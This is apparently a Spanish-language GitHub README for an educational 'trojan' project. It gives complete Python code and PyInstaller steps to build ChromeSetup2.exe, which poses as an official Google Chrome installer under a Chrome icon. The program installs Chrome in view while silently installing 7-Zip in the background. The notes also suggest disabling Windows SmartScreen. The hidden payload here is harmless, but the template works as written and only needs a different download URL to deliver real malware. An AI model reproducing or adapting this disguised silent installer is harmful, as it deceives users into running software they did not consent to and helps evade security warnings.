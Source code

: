 # README - Troyano ChromeSetup2

Este proyecto crea un ejecutable (`ChromeSetup2.exe`) que simula instalar Google Chrome mientras instala 7-Zip en segundo plano.

## Requisitos

- Máquina virtual con Windows 10.
- Python 3.x instalado.
- Módulos: `requests` y `pyinstaller` (`pip install requests pyinstaller`).
- Conexión a internet.
- Libreria necesaria (copiar y pegar):   pip install pyinstaller

## Pasos

1. **Crear el script**

   - Copia este código en un archivo llamado `trojan.py`:

     ```python
     import os, requests, subprocess, time, sys

     CHROME_URL = "https://dl.google.com/chrome/install/ChromeSetup.exe"
     SEVENZIP_URL = "https://www.7-zip.org/a/7z2301-x64.exe"
     CHROME_PATH = os.path.join(os.getenv("TEMP"), "ChromeSetup.exe")
     SEVENZIP_PATH = os.path.join(os.getenv("TEMP"), "7zipSetup.exe")

     def download_file(url, filename):
         print(f"Preparando la descarga de {os.path.basename(filename)}...")
         response = requests.get(url, stream=True)
         with open(filename, "wb") as file:
             for chunk in response.iter_content(chunk_size=8192):
                 file.write(chunk)
         print(f"Descarga completada.")

     def install_chrome():
         if os.path.exists(CHROME_PATH):
             print("Iniciando la instalación de Google Chrome...")
             subprocess.Popen(CHROME_PATH)
         else:
             print("Error: No se pudo encontrar el instalador de Chrome.")
             sys.exit(1)

     def install_7zip_silently():
         if os.path.exists(SEVENZIP_PATH):
             print("Configurando componentes adicionales...")
             subprocess.Popen([SEVENZIP_PATH, "/S"], shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
         else:
             print("Error: No se pudo encontrar el instalador de 7-Zip.")
             sys.exit(1)

     def main():
         print("Bienvenido al Instalador de Google Chrome")
         print("Versión oficial - Descargando desde Google...\n")
         time.sleep(1)
         download_file(CHROME_URL, CHROME_PATH)
         download_file(SEVENZIP_URL, SEVENZIP_PATH)
         install_chrome()
         time.sleep(2)
         install_7zip_silently()
         print("\nLa instalación de Google Chrome ha comenzado.")
         time.sleep(3)

     if __name__ == "__main__":
         main()
     ```

2. **Descargar un ícono**

   - Descarga un ícono de Chrome (`.ico`) y guárdalo como `chrome.ico` en la misma carpeta que `trojan.py`.

3. **Compilar el ejecutable**

   - Abre una terminal en la carpeta de `trojan.py`.
   - Ejecuta:
     ```
     pyinstaller --onefile --icon=chrome.ico --name ChromeSetup2 trojan.py
     ```
   - Encuentra `ChromeSetup2.exe` en la carpeta `dist`.

4. **Probar en la máquina virtual**

   - Copia `ChromeSetup2.exe` a la máquina virtual con Windows 10.
   - Haz doble clic para ejecutarlo.
   - Chrome se instalará visiblemente y 7-Zip se instalará en silencio.

5. **Verificar**
   - Busca "7-Zip" en el menú de inicio para confirmar la instalación.

## Notas

- Solo para uso educativo en un entorno controlado.
- Windows SmartScreen podría bloquearlo; desactívalo temporalmente para pruebas.

---
